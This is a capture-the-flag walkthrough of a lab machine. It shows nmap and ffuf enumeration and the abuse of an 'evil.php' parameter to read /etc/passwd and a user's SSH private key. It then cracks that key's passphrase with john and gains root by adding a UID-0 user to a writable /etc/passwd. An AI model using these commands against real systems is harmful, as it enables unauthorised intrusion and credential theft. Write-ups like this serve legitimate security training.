 We begin to enumerate with nmap and scan for open ports.
```
nmap -sV -sC -T4 192.168.235.212
```
we find two open ports 80 and 22.
We then use dirbuster to begin enumeration and find the secret directory and evil.php.
we decide to fuzz the url to see if we can use command injection.
```
ffuf -u 'http://10.0.0.192/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/wordlists/directory-list-2.3-small.txt -fs 0
http://10.0.0.192/secret/evil.php?command=/etc/passwd```
```
We find out that command injection is possible and start with the /etc/passwd file.

```
http://192.168.235.212/secret/evil.php?FUZZ=/etc/passwd
```
We find the file and find a user by the name of mowree so we see if we can then find their ssh key.
```
view-source:http://192.168.235.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa
```
We find the ssh key and use john to crack it

```
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=~/rockyou.txt
```
we find the passphrase which is unicorn and then log into mowree through ssh.
```
ssh -i id_rsa mowree@192.168.235.212
```
we find the first flag : 9d55adc63c0eb16e118f38337cbdb90d
next we check the permissions of the /etc/passwd file and find we have write permissions
so we add a new user by generating a hash on this website ```https://unix4lyfe.org/crypt/```.

```
vi /etc/passwd
batman:$1$6liRPhZl$rGbkf1QKSGzCQLebrQE0m0:0:0:root:/root:/bin/bash
```
we login in with: ```su batman``` and gain root access and find the root flag: 537c0cc59e5e360c5a02cd9440b16f0f

system has been rooted action is no longer required.
